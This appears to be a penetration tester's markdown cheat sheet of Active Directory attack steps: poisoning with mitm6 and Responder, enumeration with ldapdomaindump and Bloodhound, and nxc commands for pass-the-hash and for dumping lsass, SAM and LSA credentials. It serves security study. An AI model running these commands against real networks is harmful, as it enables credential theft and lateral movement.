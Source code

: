 ## Initial Internal Attack Strategery
  * Begin day with mitm6 or Responder
  * Run Scans to generate traffic
  * Look for websites in scope
  * Look for default credentials on web longs
    - Printers
    - Jenkins
    - etc
  * Think outside the box

## Post-Compromise Enumeration
### Strategery
  - We have an account, now what?
  - Search for the quick wins
    * Kerberoasting
    * Secretsdump
    * Pass the hash/Pass the password
  - No quick wins? dig deep!
    * Enumerate (Bloodhound, etc)
    * Where does our account have access?
    * Old Vulnerabilities die hard
  - Think outside the box
### ldapdomaindump
  * Usage
    ```bash
    sudo ldampdomaindump ldaps://<IP> -u <domain>\<user> -p <password>
    ```
### Bloodhound
  * Usage
    ```bash
    sudo bloodhound-python -d <domain> -u <username> -p <password> -ns <nameserver IP> -c all
    ```
## Post-Compromise Attacks
### Pass the Password
  * Crackmapexec/nxc
    > Basically, we are going to see what machines we can access over the network  
    ```bash
    nxc smb <network/cidr> -u <username> -p/-H <password/NTLM hash>
    ```
  * nxc with local auth
    ```bash
    nxc smb <network/cidr> -u <username> -p/-H <password/NTLM hash> --local-auth
    ```
  * nxc w/ lsassy
    ```bash
    # Useful for drive-by dumping of lsass credentials
    nxc smb <network/cidr> -u <username> -p/-H <password/NTLM hash> --local-auth -M lsassy
    ```
  * nxc Dump Sam
    ```bash
    nxc smb <network/cidr> -u <username> -p/-H <password/NTLMv1 hash> --local-auth --sam
    ```
  * nxc Dump LSA
    ```bash
    nxc smb <network/cidr> -u <username> -p/-H <password/NTLMv1> --local-auth --lsa
    ```
